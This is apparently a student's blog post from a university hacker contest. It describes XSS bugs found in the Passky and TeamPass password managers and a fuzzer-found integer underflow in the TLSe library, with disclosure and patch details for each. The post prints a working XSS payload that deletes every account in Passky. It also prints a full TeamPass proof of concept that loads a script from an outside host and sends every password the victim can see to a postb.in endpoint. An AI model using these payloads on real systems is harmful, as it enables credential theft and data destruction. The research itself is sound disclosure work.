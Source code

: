 # Finding Security Vulnerabilities in Open-Source Repos

This winter semester I took part in the TU Darmstadt [Hacker
Contest](https://www.usd.de/abschluss-hacker-contest-wise-2023-2024/), where we had an exercise in which we had to find
security vulnerabilities in open source repositories. In this blog post I will share my findings. It's nothing crazy,
but it was still fun to find them. The results of the exercise were two XSS in [two](#passky) [different](#teampass) password managers by analysing the source code and an integer underflow in a [TLS server](#tlse) by fuzzing.

<div id="passky"></div>

## Passky

Passky, which is listed on the [awesome self hosted list](https://github.com/awesome-selfhosted/awesome-selfhosted?tab=readme-ov-file#password-managers) is "the most unbloated password manager". It has
just under [200 Stars on GitHub](https://github.com/Rabbit-Company/Passky-Server) and also offers [paid premium accounts](https://passky.org/pricing).


### Vulnerability

Searching for `innerHTML` in the JavaScript code for the admin page immediately produces several
hits. The most promising is shown below.

<figure>
  <p> <img src="hackercontest/passky-innerHtml.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 1: Injection user controlled input using innerHTML.</p>
  </figcaption>
</figure>

Here user controlled data is loaded as JSON and then injected into the HTML dom using `innerHTML`. The source of the email is the registration site where the user can register with an email. The email is then stored in the `createAccount` function within the `Database.php` file where the input is not XSS sanitized as shown below.

<div id="f2"></div>
<figure>
  <p> <img src="hackercontest/passky-email-sanitation.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 2: E-Mail sanitation</p>
  </figcaption>
</figure>

This leads to an XSS on the admin panel via a user controlled email.

### Exploit

To build an XSS exploit for this vulnerability, the following limitations need to be considered.

- ~74 character limit before \@ (the limit differs for different inputs)
- Only lowercase letters
- "[]" are not allowed
- Strong Content Security Policy

But with the help of a [fellow student](https://github.com/PatrickBidinger) we found a way to bypass these limitation using two stages (linebreaks in the email is just for formatting here):

```html
// Assign document.querySelector to the window with a shorter name as the email is limited to a short amount of chars

<img src=x
  onerror="window.a=document.query&#x53;elector.bind(document)">@test.de

// Get the first user (attackers one should be the last ones) and then call the function deleteAccount to delete the user

<img src=x 
  onerror="delete&#x41;ccount(a('td .text-sm').inner&#x54;ext)">@test.de

// deleteAccount will reload the page and the payload is executed again until no user is left (exepct the attackers last one)
```

When the admin then opens the admin panel, it will list all users including their email addresses.
Since the JS-Code is not filtered or escaped properly, it will execute and delete the first user
account int he list. This triggers the page to reload, which again leads to the deletion of the next
user. After repeating this over and over again, all users but the malicious user accounts will be
deleted (including all of their data and stored passwords). 


<figure>
  <p> <img src="hackercontest/passky-deleting.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 3: Deleting all the accounts.</p>
  </figcaption>
</figure>


### Responsible Disclosure

The vulnerability was reported via Discord to the main author. As patch I recommended the use of `htmlentities`:

```git
--- a/server/src/Database.php
+++ b/server/src/Database.php
@@ -319,7 +319,7 @@ class Database{
                if(!preg_match("/^[a-z0-9]{128}$/i", $password)) return Display::json(5);

                $username = strtolower($username);
-               $email = strtolower($email);
+               $email = htmlentities(strtolower($email));
                $encrypted_password = self::encryptPassword($password);

                switch(self::isUsernameTaken($username)){
```

The author fixed the issue within a day and his responses were fast. I was even offered a Bug Bounty of 100€.

### Patch

The author fixed the vulnerability with the commit [`10882e6`](https://github.com/Rabbit-Company/Passky-Server/commit/10882e6a0a1fd6b946ad4dc7deb20c71d5eaf0cf). He also found additional
places where the sanitation of the user input was not good enough.


<div id="teampass"></div>

## TeamPass 

As Passky [TeamPass](https://github.com/nilsteampassnet/TeamPass) was found via the [awesome self hosted list](https://github.com/awesome-selfhosted/awesome-selfhosted?tab=readme-ov-file#password-managers). TeamPass has over 1700
Stars on GitHub and "is a Collaborative Passwords Manager solution installed On-Premise." 


### Vulnerability

The procedure was similar to Passky. I cloned the repo and search for the `innerHTML` sink. I found a place
where the password is injected using `innerHTML` but while trying out I have noticed that the
password is sanitized before it is stored in the database. But going through the code I found that
the `tags` are not `htmlspecialchars` encoded but decoded as shown below.


<figure>
  <p> <img src="hackercontest/teampass-vulncode.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 4: Tags are htmlspecialchars_decode</p>
  </figcaption>
</figure>


The tags are then later injected using JQuery in a insecure way leading to an XSS.

<figure>
  <p> <img src="hackercontest/teampass-script_tag.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 5: Tags are included insecurely</p>
  </figcaption>
</figure>


### Exploit

As TeamPass is a collaborative password manager an attacker could inject the XSS in a shared
password which is then executed in another users browser session allowing the attacker to extract
all passwords of this user. I also wrote a small POC which exfiltrates all passwords from another
user with higher privileges.

The first script of the exploit places the XSS by creating a script tag which includes a src
attribute where the next stage of the exploit is located as the tags have a length limit.

```js
function getKey() {
    return JSON.parse(localStorage["teampassUser"]).sessionKey;
}
var data = {
    "anyone_can_modify": 0,
    "complexity_level": 0,
    "description": "",
    "diffusion_list": [],
    "diffusion_list_names": [],
    "folder": 2,
    "email": "",
    "fields": [],
    "folder_is_personal": 0,
    "id": "",
    "label": "test",
    "login": "",
    "pw": "",
    "restricted_to": [],
    "restricted_to_roles": [],
    "tags": "<script\nsrc=http://tsmr.eu/_>",
    "template_id": null,
    "to_be_deleted_after_x_views": "",
    "url": "",
    "user_id": 10000000,
    "uploaded_file_id": "",
    "fa_icon": "",
    "otp_is_enabled": 0,
    "otp_phone_number": "",
    "otp_secret": ""
}


$.post(
    "sources/items.queries.php", {
    type: "update_item",
    data: prepareExchangedData(JSON.stringify(data), "encode", getKey()),
    key: getKey()
},
    function (data) {
        data = prepareExchangedData(data, "decode", getKey());
        console.log(data);
    }
)
```

The script which is then executed first loads a list of all passwords. It then sends a GET request to the attacker
controlled server on which the attacker can get the passwords as shown below.

<figure>
  <p> <img src="hackercontest/teampass-password_exfiltrate.png" style="width:90.0%" /></p>
  <figcaption>
    <p>Figure 6: Passwords which where exfiltrate by the XSS</p>
  </figcaption>
</figure>


```js
// This POC script is loaded via the script tag and then loads all passwords and sends them to a postbin.

waiting_for_passwords = 0
stolenPasswords = {}

function getKey() {
    return JSON.parse(localStorage["teampassUser"]).sessionKey;
}

function getPassword(item_key, callback) {
    var key = getKey();
    $.ajax({
        type: "POST",
        async: false,
        url: 'sources/items.queries.php',
        data: 'type=show_item_password&item_key=' + item_key + '&key=' + key,
        dataType: "",
        success: function (data) {
            try {
                data = prepareExchangedData(data, "decode", key);
                callback(item_key, true, atob(data["password"]));
            } catch (e) {
                callback(item_key, false, null)
                return false;
            }
        },
        onerror: function () {
            callback(item_key, false, null)
        }
    });
}

function gotNewPassword(item_key, status, password) {
    stolenPasswords[item_key].password = password;
    stolenPasswords[item_key].password_status = status;
    waiting_for_passwords -= 1;
}

function getFolderIds() {
    return JSON.parse(localStorage["teampassApplication"]).foldersList.map((x) => x.id);
}


function loadFolderInfo(folderId, callback) {
    var key = getKey();
    var dataArray = {
        id: folderId,
        restricted: "",
        start: 0,
        uniqueLoadData: "",
        nb_items_to_display_once: 100000,
    };

    $.post('sources/items.queries.php', {
        type: 'do_items_list_in_folder',
        data: prepareExchangedData(JSON.stringify(dataArray), 'encode', key),
        key: key,
    },
        function (retData) {
            //get data
            data = decodeQueryReturn(retData, key, 'items.queries.php', 'do_items_list_in_folder');
            for (var item in data["html_json"]) {
                item = data["html_json"][item];
                stolenPasswords[item["item_key"]] = item;
                waiting_for_passwords += 1
                getPassword(item["item_key"], gotNewPassword);

            }
            callback()
        })
}

function recursiveLoadFolders(folderIds, finish) {
    if (folderIds.length == 0)
        return finish()
    let folderid = folderIds.pop();
    loadFolderInfo(folderid, () => {
        recursiveLoadFolders(folderIds, finish);
    })
}

var folderIds = getFolderIds();
recursiveLoadFolders(folderIds, () => {
    while (waiting_for_passwords != 0) { }
    as_json = JSON.stringify(Object.values(stolenPasswords))
    fetch("https://www.postb.in/1730158735475-0322664373088?" + as_json)
});
```

### Responsible Disclosure

Since my emails were ending up in spam with the main author and a main contributor, I asked in a [GitHub issue](https://github.com/nilsteampassnet/TeamPass/issues/4399#issuecomment-2468267771) if they could see the emails, they responded and quickly fixed the issue.


### Patch

The patch is straight forward as they only have to replace the decode with the encode function as shown below.

<figure>
  <p> <img src="hackercontest/teampass-vulncode.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 7: Fix</p>
  </figcaption>
</figure>

The vulnerability was fixed with [PR 4457](https://github.com/nilsteampassnet/TeamPass/pull/4457).


<div id="tlse"></div>

## TLSe

[TLSe](https://github.com/eduardsui/tlse), which has over 500 Stars on GitHub is a "single C file TLS 1.3, 1.2, 1.1 and
1.0 (without the weak ciphers) implementation, using libtomcrypt as crypto library."

### Vulnerability

As my goal was to find a memory corruption a a small fuzzing environment was created where 5 different open source repos
written in C where fuzzed. The only crash was in the TLSe server which is described below.

TLSe repo multiple different harnesses where created, one for the TLS client hello, one for the TLS client certificate and one
for the ANSI parser.

As I am a Rustacean the harness was written in Rust - of course - for this [`afl.rs`](https://rust-fuzz.github.io/book/afl.html) was used. For this I compiled TLSe to a static library
and used bindgen to generate the header files for Rust so I am able to call the C functions in Rust. I created a small
helper crate which was responsible for setting up the server and sending the input buffer to the target.

```rust
pub struct FuzzServer {
    context: *mut TLSContext,
    fragmenting: bool
}

impl FuzzServer {

    pub fn new_tcp(fragmenting: bool) -> FuzzServer {
        unsafe {
            let context = SSL_CTX_new(SSLv3_server_method());
            let context = SSL_new(context);
            SSL_set_fd(context, -1); // socket is wrapped...
            FuzzServer {
                context, fragmenting
            }
        }
    }

    pub fn send_fuzzing_input_raw(&mut self, input: &mut [u8]) -> i32 {

        if self.fragmenting {
            todo!("Implement Logic to fragmenting the sending");
        }

        unsafe {tls_consume_stream(self.context, input.as_mut_ptr(), input.len() as c_int, None)}
    }

// ...
```

With theses helper functions multiple harnesses for the different targets like the Client Hello or the Client Certificate
Parse function shown below can be easily created.

```rust
#[macro_use]
extern crate afl;
use anyhow::{Result};
use mytlse::client::{FuzzServer};

fn execute_fuzz_target(buf: &[u8]) -> Result<(i32)> {
    let mut ret = 0;
    unsafe {
        let mut myserver = FuzzServer::new_tcp(false);
        let mut buf = buf.to_vec();
        ret = myserver.send_fuzzing_input_raw(&mut buf);
    }
    Ok((ret))
}

#[cfg(fuzzing)]
fn main() {
    fuzz!(|data: &[u8]| {
        execute_fuzz_target(data);
    });
}

#[cfg(not(fuzzing))]
fn main() {
    let client_hello = FuzzServer::get_client_hello();
    execute_fuzz_target(&client_hello).unwrap();
}
```

For the client certificate request the fuzzer found multiple crashes in a matter of minutes.


<figure>
  <p> <img src="hackercontest/tlse-fuzzer_crashes.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 8: AFL++ found multiple crashes.</p>
  </figcaption>
</figure>

After debugging the crashe could be identified as an integer underflow because of a wrong size check.

<figure>
  <p> <img src="hackercontest/tlse-wrong_size_check.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 9: Wrong size check leading to an integer underflow.</p>
  </figcaption>
</figure>

As shown Figure 9 the `size` variable is parsed from user-controlled input and then used
to subtract from the `remaining` variable. This leads to an integer overflow of the `remaining`
variable. This will cause the variable `res2` will get too big, leading to an `EXC_BAD_ACCESS` error
when `res2` is used to access data from `buf`.

### Exploit

With the crash file of the fuzzer it is possible to crash the target, but as the variable which is underflow is only
used to access data it is not possible to exploit it further.

### Responsible Disclosure

The crash was first reported via mail without any response (probably also landed in spam). After opening an [GitHub Issue](https://github.com/eduardsui/tlse/issues/105) the author responded directly and asking for an PR which fixes the issue. 

Which was done with [this](https://github.com/eduardsui/tlse/pull/106) PR.

### Patch

The patch is to change the comparison parameters to ensure that `size` is smaller then `remaining` before it is
subtracted from it.

<figure>
  <p> <img src="hackercontest/tlse-fix.png" style="width:80.0%" /></p>
  <figcaption>
    <p>Figure 10: Fix.</p>
  </figcaption>
</figure>


## Conclusion

In conclusion, it was a great time searching for vulnerabilities in open-source repositories. The experience was made
even better by the quick responses from the maintainers, who are all dedicated to improving their projects.